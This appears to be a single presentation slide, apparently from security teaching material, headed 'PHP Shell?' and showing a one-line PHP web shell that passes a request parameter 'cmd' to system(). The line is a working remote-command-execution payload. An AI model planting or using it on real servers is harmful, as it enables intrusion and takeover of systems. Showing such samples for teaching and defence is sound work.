

# PHP Shell?
<?php echo system($_REQUEST[‘cmd’]); ?>